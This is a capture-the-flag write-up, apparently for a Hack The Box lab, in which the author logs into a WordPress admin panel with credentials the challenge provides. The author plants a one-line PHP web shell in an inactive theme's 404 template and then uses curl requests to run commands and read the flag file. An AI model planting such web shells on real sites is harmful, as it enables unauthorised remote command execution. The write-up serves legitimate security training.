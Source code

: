 
## Challenge 1

Use the credentials for the admin user [admin:sunshine1] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory.

## Solution

On `http://94.237.58.244:48092/wp-login.php` it is the login panel, where we use the provided credentials to login.

On `Apperance` - `Theme Editor` I wen to edit the theme `Twenty Nineteen` as it is not active, and choose the `404` file.

I add the web shell there:

```php
<?php
/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
 *
 * @package WordPress
 * @subpackage Twenty_Nineteen
 * @since 1.0.0
 */

system($_GET['cmd']);
?>



<?php
get_footer();
```

Then by using `cURL` I check if I can get RCE:

```sh
curl -X GET "http://94.237.58.244:48092/wp-content/themes/twentynineteen/404.php?cmd=id"
uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)



<br />
<b>Fatal error</b>:  Uncaught Error: Call to undefined function get_footer() in /usr/src/wordpress/wp-content/themes/twentynineteen/404.php:18
Stack trace:
#0 {main}
  thrown in <b>/usr/src/wordpress/wp-content/themes/twentynineteen/404.php</b> on line <b>18</b><br />
```

So I got the output of the command back, and now I will try to read the flag file.

First I confirm the location:

```sh
curl -X GET "http://94.237.58.244:48092/wp-content/themes/twentynineteen/404.php?cmd=ls%20/home/wp-user"
flag.txt
```

Then I read it using `cat`.

```sh
curl -X GET "http://94.237.58.244:48092/wp-content/themes/twentynineteen/404.php?cmd=cat%20/home/wp-user/flag.txt"
HTB{rc3_By_d3s1gn}
```

